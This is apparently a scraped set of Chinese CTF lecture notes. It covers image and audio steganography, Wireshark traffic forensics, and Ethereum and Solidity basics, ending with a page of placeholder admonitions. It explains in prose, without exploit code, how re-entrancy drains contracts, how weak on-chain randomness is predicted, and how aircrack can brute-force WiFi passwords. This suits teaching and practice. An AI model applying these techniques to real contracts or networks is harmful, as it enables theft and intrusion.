图像文件需要存储什么？¶
图像信息：宽高、色彩模式、色彩空间等
- EXIF 信息：拍摄设备、拍摄时间、GPS 信息等
像素数据：每个像素的颜色信息；二值、灰度、RGB、CMYK、调色盘等
- 对于标准 RGB 图像，每个像素需要 24 bits
- 对于一张 1080p 图像，需要 6.22 MB，4K 则需要 24.88 MB
- BMP 格式
压力给到了图像格式的压缩算法
- PNG 无损，JPEG 有损
- GIF 有损且只支持 256 色
- 新兴格式如 HEIF、WebP、AVIF 等
JPEG 文件格式¶

JPEG 使用分段的结构来进行存储，各段以 0xFF 开头，后接一个字节表示类型：
- FFD8（SOI）：文件开始
- FFE0（APP0）：应用程序数据段，包含文件格式信息（上图没有）
- FFE1（APP1）：应用程序数据段，包含 EXIF 信息（上图没有）
- FFDB（DQT）：量化表数据
- FFC0（SOF）：帧数据，包含图像宽高、色彩模式等信息
- FFC4（DHT）：huffman 表数据
- FFDA（SOS）：扫描数据，包含数据的扫描方式，huffman 表的使用方式等
- FFD9（EOI）：文件结束
JPEG 压缩原理¶
JPEG 的压缩原理是 DCT（离散余弦变换）+ Huffman 编码
- 由 RGB 转换到 YCbCr，然后减少 Cb、Cr 的采样率
-
将图像分块，每个块 8x8，进行 DCT 变换
- 将图像转换为频域，便于压缩高频部分
量化，将 DCT 变换后的系数除以量化表中的系数
- 再次减少高频部分的数据
- 根据不同的量化表，可以调整压缩质量
通过游程编码和 huffman 编码进行压缩
PNG 文件格式¶

文件头 89 50 4E 47 0D 0A 1A 0A | .PNG....
采用分块的方式存储数据
- 每块的结构都是 4 字节长度 + 4 字节类型 + 数据 + 4 字节 CRC 校验
- 四个标准数据块：IHDR、PLTE、IDAT、IEND
- 其他辅助数据块：eXIf、tEXt、zTXt、tIME、gAMA……
- eXIf 元信息，tIME 修改时间，tEXt 文本，zTXt 压缩文本
四种标准数据块：
-
IHDR：包含图像基本信息，必须位于开头
-
4 字节宽度 + 4 字节高度
- 1 字节位深度：1、2、4、8、16
- 1 字节颜色类型：0 灰度，2 RGB，3 索引，4 灰度透明，6 RGB 透明
- 1 字节压缩方式，1 字节滤波方式，均固定为 0
-
1 字节扫描方式：0 非隔行扫描，1 Adam7 隔行扫描
-
PLTE：调色板，只对索引颜色类型有用
- IDAT：图像数据，可以有多个，每个数据块最大 2 31 -1 字节
- IEND：文件结束标志，必须位于最后，内容固定
- PNG 标准不允许 IEND 之后有数据块
隐写进阶技术¶
图像大小修改¶
- PNG 图像按行进行像素数据的压缩，以及存储 / 读取
- 当解码时已经达到了 IHDR 中规定的大小就会结束
- 因此题目可能会故意修改 IHDR 中的高度数据，使之显示不全
- 恢复的话更改高度即可，同时注意 crc 校验码，否则可能报错
- binascii.crc32(data)，data 为从 IHDR 开始的数据
需要原图的图像隐写¶
有些情况下的图像隐写需要原图才能解密，这时第一步一般是 OSINT 搜索原图
- 使用识图工具进行搜索
- 一般需要搜原图的题题目描述会带有来源暗示之类的
- 多注意搜到的图像大小、质量，确保是真正的原图
接下来利用原图和隐写图像的差异进行分析
-
图像像素异或观察差异
- PIL 手动处理 / ImageChops.difference
- stegsolve image combiner
-
盲水印系列
- 给了打水印的代码的话直接尝试根据代码逆推即可
- 没有给代码的可能就是常见的现有盲水印工具
- guofei9987/blind_watermark
更多图像文件内容隐写手段¶
还有更多基于文件内容的隐写方式我们就不展开讲了，这里介绍一些可能的：
人为隐写
- JPEG 中 DCT 系数可以进行 LSB 隐写
- JPEG 中 DHT 定义的 huffman 表可能有冗余项，可以隐写
- PNG 中附加多余 IDAT 数据块的隐写（显示时被忽略）
- PNG 中使用调色盘时可以进行调色盘隐写（EZStego 隐写）
较成熟的工具隐写
- steghide、stegoveritas、SilentEye 等
- 一般找到了类似密码一类的大概率是工具题
音频文件格式简介¶
mp3：有损压缩
- 具体格式不多介绍，遇到了基本上也就是声音本身的隐写
wav：无损无压缩（waveform）
- 直接存储的是音频的波形数据，可操作性更高
- 文件结构也是分 chunk 的，有 RIFF、fmt、data 等
- 编码音频数据的 sample 也可以进行 LSB 隐写
flac：无损压缩，如果出现可能考虑转换为 wav
使用 Python 的 soundfile / librosa 库进行音频处理
Misc专题二：流量取证/区块链基础¶
约 2423 个字 7 行代码 3 张图片 预计阅读时间 10 分钟
流量取证¶
流量取证基础¶
网络流量（\(\rightarrow\) 回顾 web 基础）
- 应用层（HTTP/FTP/...） \(\rightarrow\) 表示层 \(\rightarrow\) 会话层（SSL/TLS/...）
- \(\rightarrow\) 传输层（TCP/UDP） \(\rightarrow\) 网络层（IP/ICMP/...）
- \(\rightarrow\) 数据链路层 \(\rightarrow\) 物理层
最终传输的仍然是二进制数据
- 捕获这些数据， 就可以分析得到正在进行的通信内容
流量取证一般就是拿到这些数据包（cap、 pcap、 pcapng 格式）进行分析
- 如有损坏的话修复数据包（少见， pcapfix 可以修复）
- 分析、 提取得到正在通信的内容（可能包含有效信息）
- 分析一些特定的、 不太常见的协议（比如一些自定义协议）
- 分析、 解密一些加密的协议（比如 VMess 等）
流量取证常用工具¶
- tcpdump 抓 TCP 包（Linux 命令行）
- Wireshark： 直接抓包， 得到物理层的全部数据并解析（开源）
- 自带命令行工具 tshark
- termshark： 类似 Wireshark 的开源命令行工具
- pyshark： tshark 的 Python 封装， 可以用 Python 脚本分析
- scapy： Python 库，
Wireshark 基本用法¶
浏览主界面的所有数据包， 大致了解都由什么协议组成
追踪流（追踪 TCP 流 / 追踪 HTTP 流）
- 得到某次通信的全部数据包， 并进行解析
- 另存为， 保存流数据
- 可以转换不同的显示形式（ASCII、 HEX、 Raw）
文件 > 导出， 提取某些数据包的流内容
统计部分
- 协议层次： 统计各层协议的数据包数量
- 流量图： 统计各个端口的流量， 可视化显示
- HTTP： 分组计数、 请求统计
Wireshark 过滤器¶
过滤协议： 直接输入 tcp/udp/http 等
过滤 ip： ip.addr == xx.xx.xx.xx 或 ip.src ip.dst
过滤端口： tcp.port == 80 或 tcp.srcport tcp.dstport
包长度过滤： frame.len ip.len tcp.len ……
http 过滤
- http.request.method == GET
- http.request.uri == "/index.php"
- http contains "flag"（相当于搜索功能）
HTTP 协议流量分析¶
分析统计信息
- 查看所有的 HTTP 请求 URI
- 分析 HTTP 往返的情况， 流量整体信息
具体分析某些请求： 利用过滤器
分析某一数据包具体内容
- 跟踪流， 跟踪 TCP 解析 TCP， 跟踪 HTTP 可以自动解压 gzip 等
- 分析请求头、 响应头、 请求体、 响应体等
具体题目示例
- 本次 lab 中的题目： SQL 盲注流量分析
UDP 协议¶
UDP 协议是无连接的， 不需要像 TCP 一样三次握手
和 TCP/HTTP 一样直接追踪分析就可以
常见的基于 UDP 的协议： DNS
具体题目示例
- 本次 lab 中的题目： dnscap
-
MRCTF 2022： Bleach!
- 基于 UDP 的 RTP 协议， 需要手动选择进行解析
- RTP 是一种音视频传输协议， 可以得到音频流
- wav 音频流中 LSB 包含隐写图片
其他协议¶
ICMP 协议： ping
- 某时也会带有一些信息， 可以进行进一步分析
OICQ 协议： QQ 使用， 是加密的， 但是可以看到双方 QQ 号等
WIFI 协议（IEEE 802.11）
- 可以使用 Linux aircrack 套件爆破密码
- 有了密码后可以在 Wireshark 中设置并解密流量
USB 协议
- 安装了 USBcap 之后可以在 Wireshark 中捕获 USB 流量
- 有工具可以解析流量， 绘制鼠标轨迹， 得到按键信息等
其他加密协议
- VMess， 需要读文档 / 源码， 实现解密
- 例题： 强网杯 2022 Quals 谍影重重
以太坊区块链基础¶
以太坊模型全览 - 区块与世界状态¶

每个区块包含三颗 Merkle 树根节点
- stateRoot 即世界状态树根节点， 状态是一组用户状态的组合
区块由“矿工”或“验证者”将交易打包形成， 后广播到网络中
- 每条交易会引发世界状态的转变， 消耗一定 gas
以太坊模型全览 - 交易与世界状态转变¶

每一条交易都会引起状态的改变
多个交易打包到一起， 最终状态就是新区块存储的状态
交易信息中包含 hash/v/r/s 为交易签名， 用于验证交易的合法性
合约在 EVM 上执行， 执行过程中也有各种漏洞
账户¶
外部账户（Externally Owned Account）
-
有一对公私钥， 用于签署交易
- 私钥是随机生成的 256 位数（32 字节）
- 公钥由私钥经过 ECDSA 算法计算而来， 是一个 64 字节的数
- 地址由公钥经过 Keccak-256 哈希后取前 20 字节得到

合约账户（Contract Account）
- 由 EOA 通过交易创建的账户， 其中包含合约代码
- 合约可以存储、 拥有以太币
- 向合约账户发送交易 \(\rightarrow\) 调用合约中的函数
- 合约本身不能主动发起交易， 但可以在被调用时向外发送交易
交易¶
一条交易包含以下内容：
- from： 交易发送者地址
- to： 交易接收者地址， 如果为空则表示是在创建智能合约
- value： 交易金额， 即发送方要给接收方转移的以太币数量（wei 为单位）
- data： 交易数据， 如果是创建智能合约则是智能合约代码， 如果是调用智能
- 合约则是调用的函数名和参数
- gasPrice： 交易的 gas 价格， 即每单位 gas 的价格（wei 为单位）
- gasLimit： 交易的 gas 上限， 即交易允许执行的最大 gas 数量
- nonce： 交易的序号， 即发送者已经发送的交易数量
除此之外发送的交易数据包还需要包含：
- hash： 交易的哈希值， 由前面的内容和 chainId 计算得到
- v、 r、 s： 交易签名的三个部分， 由发送者私钥对交易哈希值进行签名得到
以太币单位： https://converter.murkin.me/
关于链与 faucet¶
公开链： 真实的交易
- 通过 https://etherscan.io/ 查看
- 主网（mainnet） ： 真正的金钱交易， 很少使用
-
测试链： Sepolia / Holesky 链， 可以通过 faucet 获取免费代币
- https://sepolia-faucet.pk910.de/
- Ethernaut 等大型公开合约 CTF 平台会使用
私链： 自己搭建的链， 模拟真实的链
- 一般 CTF 题目都使用私链部署
- 可以通过 geth 等工具部署私链
more¶
- https://note.tonycrane.cc/ctf/blockchain/eth/basic/
- https://slides.tonycrane.cc/data-sec-pre/
- https://ethereum.org/en/developers/docs/
智能合约安全基础¶
关于合约¶
合约的创建和调用都通过交易来进行
合约调用：
- data 字段为编码后的函数名（selector）和参数， 称为 calldata
- selector 是函数签名 keccak256 的前四个字节
- 不存在对应 selector 则会调用 fallback 函数， 还不存在则 revert
合约存储： 全公开存储， 都在链上， 可以 getStorageAt 查看
revert： 回滚， 所有当前调用中的状态改变全都复原
合约编译后得到字节码在 EVM 上运行：
Solidity 语言¶
https://note.tonycrane.cc/ctf/blockchain/eth/solidity/
官方文档：https://docs.soliditylang.org/en/latest/index.html
以太坊官方的编写智能合约的语言
IDE：https://remix.ethereum.org/
通过 contract 关键字声明一个合约
通过 function 定义一个可以调用的函数
- public、 internal、 external、 private
- 属性（状态）会自动创建 getter 函数
- 通过 view、 pure 关键字定义一个不改变状态的函数
通过 payable 关键字定义一个可以接收以太币的函数
特殊函数： constructor、 fallback、 receive
常见漏洞示例¶
整型溢出¶
Ethernaut 题目 Token：
- balances 字典是 uint256， 无符号减法有溢出风险
- 给任意地址转账， 原余额 20 Token， 转 21 个， 则 balances 会变的巨大
- 通过事先检查或者使用 SafeMath 库可以避免
- 新版本 solidity 自动开启了溢出检查
重入攻击¶
Ethernaut 题目 Re-entrancy， 很经典的智能合约漏洞，例如如下合约：
withdraw 时先转钱再更新 balances
转钱的时候会进入到目标合约的 fallback 函数， 可以再次调用 withdraw
再次调用时 require 检查的仍然是老的 balances
这样可以把钱取空
伪随机数¶
区块链需要所有以太坊节点验证交易计算出相同结果达成共识
无法实现真随机数
伪随机可以破解：
- 利用区块变量作为随机数： 可以获取
- 利用 blockhash 作为随机数： 只保留最近 256 个区块
- 回滚攻击： 不断 revert 来猜随机数
Ethernaut 题目 Coin Flip， 留作作业。
其他常见漏洞： https://note.tonycrane.cc/ctf/blockchain/eth/vuln/
CTF 比赛中的私链题目交互¶
一般会过滤掉大部分 geth rpc 接口
- 防止其他队伍扒链蹭车 / 重放
- 白名单示例可见 chainflag/solidctf 中的白名单，一般就是这些
- geth 手动操作很复杂（只能发 raw）, remix/metamask 可能会无法连接
可以 / 推荐通过 web3.py 进行交互
- 通过 eth.contract 和 abi 与 addr/bytecode 创建合约对象
- 通过 contract.functions.f().build_transaction() 构建交易
- 通过 eth.account.sign_transaction(txn, privateKey) 签名
- 得到 rawTransaction 后 eth.send_raw_transaction(raw) 发送
- 通过 eth.wait_for_transaction_receipt(hash) 等待交易完成
- 无需交易的 view 函数可以直接 contract.functions.f().call()
https://note.tonycrane.cc/ctf/blockchain/eth/basic/#_15
more¶
Read more: https://note.tonycrane.cc/ctf/blockchain/eth
以太坊基础知识： 账户、 交易、 合约、 区块等， 及其原理
Solidity 语言： 最常用的智能合约语言， 以太坊官方语言
- 了解其语法、 类型， 以及合约运行的整体逻辑
- 了解一些 ERC 标准（目的是看懂题目的合约）
以太坊虚拟机（EVM） ： 执行合约字节码的栈结构虚拟机
- 了解其运行原理， 与账户、 合约、 交易的关系， 反汇编、 反编译的方法
交互、 测试环境： geth、 Remix、 MetaMask、 web3.js、 web3.py 等
常见合约漏洞： 整型溢出、 重入、 伪随机、 薅羊毛、 非预期的远程调用……
入门做题平台：
- ethernaut
- 校巴上的几道 Blockchain 题建议有一定基础了解之后再做
Ended: Misc
Ended: 专题周
Ended: CTF
Others ↵
写点啥好呢¶
约 83 个字 预计阅读时间不到 1 分钟
Note
This is a note.
Tip
This is a tip.
Answer
This is an answer.
Warning
This is a warning.
Question
This is a question. 42.
Info
This is an info.
Discussion
This is a discussion.
Danger
This is a danger.
Example title
This is an example.
Abstract title
This is an abstract.
Summary title
This is a summary.
Quote title
This is a quote.
Page
This is a page.
Success
This is a success.